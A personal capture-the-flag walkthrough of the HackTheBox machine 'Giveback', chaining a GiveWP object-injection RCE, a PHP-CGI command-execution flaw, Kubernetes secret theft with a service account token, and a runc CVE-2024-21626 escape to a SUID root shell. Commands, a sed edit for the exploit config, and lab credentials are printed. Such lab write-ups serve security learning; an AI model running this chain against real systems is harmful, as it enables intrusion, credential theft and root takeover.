







# HackTheBox – Giveback (Medium) – Full Walkthrough
[Here are the notes I took while solving](./walkthrough)

This writeup is a mix between a professional walkthrough and a personal lab diary. I’ll go through my full thought process, including all the dead ends, the “WTF” moments, and the little tricks I had to adjust along the way. The box is called **Giveback**, and that name makes sense once you see how many “layers” of infrastructure it makes you dig through.

---

## 1. Recon & First Impressions

I started with a classic full TCP scan with version detection and some default scripts:

```bash
nmap -p- -sV -A giveback.htb
```

The scan came back with:

```text
Nmap scan report for giveback.htb (10.10.11.94)
Host is up (0.018s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 66:f8:9c:58:f4:b8:59:bd:cd:ec:92:24:c3:97:8e:9e (ECDSA)
|_  256 96:31:8a:82:1a:65:9f:0a:a2:6c:ff:4d:44:7c:d3:94 (ED25519)
80/tcp    open     http         nginx 1.28.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 6.8.1
|_http-title: GIVING BACK IS WHAT MATTERS MOST &#8211; OBVI
|_http-server-header: nginx/1.28.0
6443/tcp  filtered sun-sr-https
10250/tcp filtered unknown
30686/tcp open     http         Golang net/http server
|_http-title: Site doesn't have a title (application/json).
```

There’s also some OS fingerprinting indicating a Linux 5.x kernel, possibly MikroTik RouterOS in the path:

```text
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   17.18 ms 10.10.14.1
2   17.40 ms giveback.htb (10.10.11.94)
```

Port 80 was clearly a WordPress site. Since the site was referencing the domain `giveback.htb`, I added it to `/etc/hosts`:

```text
10.10.11.94   giveback.htb
```

After that, browsing to `http://giveback.htb` gave me a standard WordPress blog as the main attack surface.

---

## 2. WordPress Enumeration & Initial Foothold (CVE-2024-5932)

As usual on a WordPress box, I ran `wpscan`:

```bash
wpscan --url http://giveback.htb
```

The scan revealed two important things:

```text
[+] WordPress version 6.8.1 identified (Insecure, released on 2025-04-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://giveback.htb/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.8.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://giveback.htb/, Match: 'WordPress 6.8.1'

[+] give
 | Location: http://giveback.htb/wp-content/plugins/give/
 | Last Updated: 2025-10-29T20:17:00.000Z
 | [!] The version is out of date, the latest version is 4.12.0
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By:
 |  Urls In 404 Page (Passive Detection)
 |  Meta Tag (Passive Detection)
 |  Javascript Var (Passive Detection)
 |
 | Version: 3.14.0 (100% confidence)
 |  - http://giveback.htb/wp-content/plugins/give/assets/dist/css/give.css?ver=3.14.0
 | Confirmed By:
 |  Meta Tag (Passive Detection)
 |   - http://giveback.htb/, Match: 'Give v3.14.0'
 |  Javascript Var (Passive Detection)
 |   - http://giveback.htb/, Match: '"1","give_version":"3.14.0","magnific_options"'
```

I googled the plugin version and landed on **CVE-2024-5932**:  
*“GiveWP – Donation Plugin and Fundraising Platform <= 3.14.1 - Unauthenticated PHP Object Injection to Remote Code Execution”*.

Initially I tried a PoC from EQSTLab:

```text
https://github.com/EQSTLab/CVE-2024-5932.git
```

but I got nowhere. At this point I spent some time checking different repos and writeups:

- `https://github.com/search?q=CVE-2024-5932&type=repositories`
- A research PDF:  
    `https://www.skshieldus.com/download/files/download.do?o_fname=Research%20Technique_PHP%20Object%20Injection%20Vulnerability%20in%20WordPress%20GiveWP%20(CVE-2024-5932).pdf&r_fname=20240927174114070.pdf`

I was also distracted briefly by other unrelated CVEs like CVE‑2024‑8353 and CVE‑2025‑22777 because they mention internal Kubernetes stuff, which this box also has:

```text
https://github.com/EQSTLab/CVE-2024-8353
https://github.com/0xb0mb3r/CVE-2024-8353-PoC
https://github.com/RandomRobbieBF/CVE-2025-22777
```

but they turned out to be rabbit holes for this phase.

The big reason I got stuck for almost three days on this WordPress exploit was that I rely heavily on `curl` to detect remote code execution. Here, inside the container, `curl` was not available, so my usual “echo X > /tmp/file via curl” technique failed silently, which made me believe the exploit wasn’t working.

Eventually I switched to a newer PoC:

```text
https://github.com/autom4il/CVE-2024-5932/blob/main/CVE-2024-5932.py
```

Using this one, and changing my verification technique (not relying on curl), I finally managed to get code execution, then a shell. Lesson learned: don’t assume `curl` exists in every container.

---

## 3. Inside the WordPress Pod – Environment Looting

Once inside, it turned out I was in a **Kubernetes pod**. The environment variables were full of goodies:

```text
WORDPRESS_DATABASE_PASSWORD=sW5sp4spa3u7RLyetrekE4oS
WORDPRESS_PASSWORD=O8F7KR5zGi
WORDPRESS_USERNAME=user
WORDPRESS_DATABASE_USER=bn_wordpress
WORDPRESS_DATABASE_NAME=bitnami_wordpress
BETA_VINO_WP_MARIADB_PORT=tcp://10.43.147.82:3306
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
BETA_VINO_WP_WORDPRESS_PORT=tcp://10.43.61.204:80
LEGACY_INTRANET_SERVICE_SERVICE_PORT=5000
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR=10.43.2.241
```

The `.env`-style dump also had lots of technical info, but the key part was the DB password and internal addresses. I connected to MariaDB:

```sql
MariaDB [bitnami_wordpress]> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | user       | $P$Bm1D6gJHKylnyyTeT0oYNGKpib//vP. | user          | user@example.com | http://127.0.0.1 | 2024-09-21 22:18:28 |                     |           0 | babywyrm     |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.016 sec)
```

Nothing super interesting beyond confirming the user and that the password we had was indeed valid.

In parallel, `/etc/hosts` gave another hint:

```text
10.42.1.232     beta-vino-wp-wordpress-6bc947f468-8p46q
```

and the env vars referenced a “legacy intranet” at `10.43.2.241:5000`. That clearly smelled like the next step.

---

## 4. Pivoting to the Legacy Intranet (reverse SSH)

To reach the internal intranet service from my host, I used a **portable reverse SSH** technique. I used:

```text
https://github.com/Fahrj/reverse-ssh
```

From my side I ended up with something like:

```bash
ssh rev@localhost -p 8888 -L 5000:10.43.2.241:5000
```

This forwards local port 5000 to `10.43.2.241:5000` inside the cluster, through the compromised pod. With that in place, browsing to `http://localhost:5000` revealed the **legacy intranet**:

```text
HTTP_HOST = localhost:5000
SERVER_SOFTWARE = nginx/1.24.0
DOCUMENT_ROOT = /var/www/html
DOCUMENT_URI = /cgi-bin/php-cgi
REQUEST_URI = /cgi-bin/php-cgi?info=s
...
REQUEST_METHOD = GET
QUERY_STRING = info=s
```

On the intranet page, there were many links, but almost all returned 403 or 405, often with “VPN required” messages. That made me think there might be some IP-based filtering or assumptions about “internal users”.

One prominent clue was about “legacy CGI scripts” on the intranet home page. I wasn’t sure what to do with that at first, so I asked another AI (Claude) for ideas, and it pointed me towards **CVE‑2012‑1823** (PHP-CGI query string RCE). Directly applying the public PoC didn’t work, but it did trigger a very interesting error.

---

## 5. PHP-CGI Misconfiguration & Command Execution

Playing with the PHP-CGI parameters, I tried this classic trick:

```http
/cgi-bin/php-cgi?auto_prepend_file=php://input
```

and sent a body. That produced a warning like:

```html
Fatal error: Uncaught ValueError: passthru(): Argument #1 ($command) cannot be empty in /var/www/html/cgi-bin/php-cgi:25 Stack trace: #0 /var/www/html/cgi-bin/php-cgi(25): passthru('') #1 {main} thrown in /var/www/html/cgi-bin/php-cgi on line 25
```

This showed that the CGI wrapper was echoing CGI/ENV internals, and that `auto_prepend_file` was being interpreted. After multiple tests, I realised something crucial:

> The **raw POST body** was being executed as a shell command.

After hitting it enough times and watching responses, I concluded that whatever I put in the POST body was executed on the server side, effectively giving me an unauthenticated RCE via a misconfigured PHP CGI interface.



At first, I tried to drop a more stable shell by downloading a portable reverse SSH binary, but again I hit the “no curl” problem in this environment. Earlier I had tried using `curl` everywhere, which made me think this vector wasn’t working either.

To deal with the lack of curl/wget, I looked for pure-bash download tricks:

```text
https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et
```

In the end, to keep things simple and avoid too much instability, I settled on a **basic sh reverse shell** using the available `php` and networking capabilities, just to get a foothold.

Once in, I explored the filesystem and stumbled upon Kubernetes service account files:

```text
/run/secrets/kubernetes.io/serviceaccount
ls -la
total 4
drwxrwxrwt    3 root     root           140 Nov 14 17:27 .
drwxr-xr-x    3 root     root          4096 Nov 14 16:38 ..
drwxr-xr-x    2 root     root           100 Nov 14 17:27 ..2025_11_14_17_27_14.3971718581
lrwxrwxrwx    1 root     root            32 Nov 14 17:27 ..data -> ..2025_11_14_17_27_14.3971718581
lrwxrwxrwx    1 root     root            13 Nov 14 16:38 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Nov 14 16:38 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Nov 14 16:38 token -> ..data/token
```

`namespace` contained:

```text
default
```

and `token` contained a long **JWT**-like bearer token:

```text
eyJhbGciOiJSUzI1NiIsImtpZCI6Inp3THEyYUhkb19sV3VBcGFfdTBQa1c1S041TkNiRXpYRS11S0JqMlJYWjAifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiLCJrM3MiXSwiZXhwIjoxNzk0Njc3MjM0LCJpYXQiOjE3NjMxNDEyMzQsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwianRpIjoiNmRmOGRhYWMtNjcxYy00MmZkLTllMGMtOTIzODIzODE3Y2M2Iiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0Iiwibm9kZSI6eyJuYW1lIjoiZ2l2ZWJhY2suaHRiIiwidWlkIjoiMTJhOGE5Y2YtYzM1Yi00MWYzLWIzNWEtNDJjMjYyZTQzMDQ2In0sInBvZCI6eyJuYW1lIjoibGVnYWN5LWludHJhbmV0LWNtcy02ZjdiZjVkYjg0LWI0ejhkIiwidWlkIjoiMDFlODRkZDMtY2ZiYS00ZTdkLThjZTEtYmFkMDM1ODE0ZjgzIn0sInNlcnZpY2VhY2NvdW50Ijp7Im5hbWUiOiJzZWNyZXQtcmVhZGVyLXNhIiwidWlkIjoiNzJjM2YwYTUtOWIwOC00MzhhLWEzMDctYjYwODc0NjM1YTlhIn0sIndhcm5hZnRlciI6MTc2MzE0NDg0MX0sIm5iZiI6MTc2MzE0MTIzNCwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmRlZmF1bHQ6c2VjcmV0LXJlYWRlci1zYSJ9.a9g7aU2qwFosuKON5kU8VoLsuYSdJk322PoYB2QWHwfQExy0V5jG0Fsof4nj6kay85n5Z473698xBQt9WtoJ2zpuPoBHUaUUfJ-PbKyHCgSAqscA8n8S
```

Claude suggested this was indeed a Kubernetes service account token for the **default** namespace, which matches the file paths.

---

## 6. Talking to the Kubernetes API & Stealing a Secret

Using the service account token and the `KUBERNETES_PORT_443_TCP_ADDR` variable (`10.43.0.1`), I crafted a query to list secrets in the `default` namespace:

```bash
curl -k \
    -H "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" \
    https://10.43.0.1:443/api/v1/namespaces/default/secrets
```

That returned a massive JSON containing all sorts of secrets. Buried in there, one item caught my eye:

```json
"name": "user-secret-babywyrm",
"data": {
    "MASTERPASS": "YTJUZXpscmo3VU9IWFVpWkd0WkoxVG1uVWR0QmNk"
}
```

This looked very promising. `MASTERPASS` base64-decoded to:

```bash
echo "YTJUZXpscmo3VU9IWFVpWkd0WkoxVG1uVWR0QmNk" | base64 -d
# a2Tezlrj7UOHXUiZGtZJ1TmnUdtBcd
```

I first tried this password over SSH casually and it didn’t work; I gave up on it briefly. Later I realised I had messed up something in the login attempt. After retrying properly:

```text
babywyrm:a2Tezlrj7UOHXUiZGtZJ1TmnUdtBcd
```

it worked. Note that the password changes at each reset of the box, so I couldn’t use it as a persistent “checkpoint” credential.

Once logged in as `babywyrm` over SSH, I grabbed the user flag from the home directory.

At that point the box teased a more complex privilege escalation path, and I decided to pause for the day with that checkpoint in place.

---

## 7. Sudo, /opt/debug, and runc 1.1.11

Running `sudo -l` as `babywyrm` gave:

```text
Matching Defaults entries for babywyrm on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, timestamp_timeout=0, timestamp_timeout=20
User babywyrm may run the following commands on localhost:
        (ALL) NOPASSWD: !ALL
        (ALL) /opt/debug
```

So I could run `/opt/debug` as root without a password, but everything else was forbidden (`NOPASSWD: !ALL`).

Checking `/opt/debug`:

```bash
ls -la /opt/debug
-rwx------ 1 root root 5802 Nov 12 10:21 /opt/debug
```

Only root has permissions, but `sudo` lets me run it. When executed:

```bash
babywyrm@giveback:/tmp$ sudo /opt/debug
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 
Error: Incorrect administrative password
```

So there is an additional “administrative password” prompt inside the binary. Interestingly, we already had a strong-looking password from earlier: the **WordPress database password**:

```text
WORDPRESS_DATABASE_PASSWORD=sW5sp4spa3u7RLyetrekE4oS
```

After a hint (and some frustration, because guessing “use DB password here” feels a bit arbitrary), I tried that as the administrative password:

```bash
babywyrm@giveback:/tmp/neirda2$ echo "sW5sp4spa3u7RLyetrekE4oS" | sudo /opt/debug --debug --log caca.txt run 2
[sudo] password for babywyrm: 
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 
[*] Administrative password verified
[*] Processing command: run
Error: Host root filesystem mount detected - not permitted
```

So the WP DB password is indeed the admin password for `/opt/debug`. The binary is basically a **restricted runc debug wrapper**:

```bash
babywyrm@giveback:/tmp$ sudo /opt/debug --help
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 
[*] Administrative password verified
[*] Processing command: --help
Restricted runc Debug Wrapper
Usage:
    /opt/debug [flags] spec
    /opt/debug [flags] run <id>
    /opt/debug version | --version | -v
Flags:
    --log <file>
    --root <path>
    --debug
```

When I checked its version:

```bash
babywyrm@giveback:/tmp$ sudo /opt/debug -v
[*] Validating sudo privileges...
[*] Sudo validation successful
Please enter the administrative password: 
[*] Administrative password verified
[*] Processing command: -v
runc version 1.1.11
commit: v1.1.11-0-g4bccb38c
spec: 1.0.2-dev
go: go1.20.12
libseccomp: 2.5.4
```

This was very interesting: runc 1.1.11 has a known vuln that i found after searching through the github patchnotes: **CVE-2024-21626**.


---

## 8. CVE-2024-21626 – Escaping runc via config.json

I looked up PoCs and found:

```text
https://github.com/NitroCao/CVE-2024-21626
```

The PoC uses a special crafted `config.json` for runc, where the process `cwd` is set to `/proc/self/fd/7`, allowing path traversal / host escape.

The original technique goes like this:

```bash
~/container/runc/runc --version
docker run --name helper-ctr alpine
docker export helper-ctr --output alpine.tar
mkdir rootfs
tar xf alpine.tar -C rootfs
~/container/runc/runc spec
sed -ri 's#(\s*"cwd": )"(/)"#\1 "/proc/self/fd/7"#g' config.json
grep cwd config.json
sudo ~/container/runc/runc --log ./log.json run demo
```

The PoC for CVE-2024-21626 uses a trick where `cwd` is changed to `/proc/self/fd/7`, and runc ends up resolving paths in weird ways, bypassing some of the checks. I adapted that to this environment, regenerating the spec via `/opt/debug spec`, then editing:

```bash
sed -ri 's#("cwd": )"(/)"#\1"/proc/self/fd/7"#g' config.json
```

I then used `/opt/debug` in place of `runc` to run the container:

```bash
echo "sW5sp4spa3u7RLyetrekE4oS" | sudo /opt/debug --debug --log caca.txt run <id>
```

Once the exploit chain was working, I was effectively escaping the restricted wrapper and interacting with the host filesystem as root.

---

## 9. Root Flag & Root Shell

Using the runc escape, I eventually reached the host root filesystem and managed to access the `root` home directory, retrieving the **root flag**


Just for closure (because reading a file as root via container isn’t as satisfying as having a real root shell), I used the same technique to drop a **SUID bash** in `/tmp`:

I copied `bash` into `/tmp` from a location accessible in the host view, then set SUID root on it. The rough end result was:

```bash
cp /bin/bash /tmp/bash-root
chmod u+s /tmp/bash-root
/tmp/bash-root -p
```

Launching `/tmp/bash-root -p` then gave me an actual root shell on the host. At that point the box was truly “finished”.


---

## 10. Wrap-up & Lessons Learned

Even though this box is “only” rated Medium, it felt quite long and intricate. I hit three main roadblocks:

- First on the **GiveWP CVE (CVE‑2024‑5932)**, mostly because I was blindly relying on `curl` to validate RCE. No curl = no feedback = I assumed it didn’t work.
- Second on the **CGI RCE**: I kind of stumbled onto the `auto_prepend_file=php://input` behaviour and then realised the POST body was being executed directly. That’s a very old-school bug that I wasn’t expecting in 2025.
- Third on the **final escalation with runc/CVE-2024-21626**: understanding how `/opt/debug` restricted runc and how to bypass the host-root check via `cwd` and bind mounts took some careful reading of the config and PoC.

Along the way, I picked up a few useful habits and tools:

- Pay attention to **every password** and secret you see, even if it seems scoped to one component (e.g., DB passwords reused as “admin” passwords elsewhere).
- Be more flexible than “curl or nothing” when checking for RCE. Sometimes a simple `sleep`, `ping`, or pure-shell file write is safer in constrained containers.
- Using **reverse SSH** tricks like `reverse-ssh` is extremely handy for forwarding internal services and keeping somewhat stable shells in weird network topologies.
- Interacting with the **Kubernetes API** via service account tokens is powerful: if your pod has those tokens and minimal RBAC permissions, you might be able to list secrets and fully pivot to the host.

Overall, the path was:

1. External recon → WordPress + GiveWP plugin.
2. Exploit GiveWP (CVE‑2024‑5932) → RCE in the WordPress pod.
3. Enumerate env vars → DB credentials, internal services.
4. Connect to MariaDB and confirm WordPress user info.
5. Use reverse SSH to expose the **legacy intranet** (port 5000).
6. Abuse misconfigured **PHP-CGI** (`auto_prepend_file=php://input`) → RCE → new pod.
7. Read Kubernetes service account token → query API for secrets.
8. Extract and decode `MASTERPASS` → SSH as `babywyrm`.
9. Enumerate sudo → `/opt/debug` runc wrapper with admin password = WP DB password.
10. Abuse **CVE‑2024‑21626** in runc 1.1.11 via crafted `config.json` → host escape.
11. Read root flag, then create SUID bash in `/tmp` for a full root shell.

Long box, but very satisfying once all the pieces clicked together.

```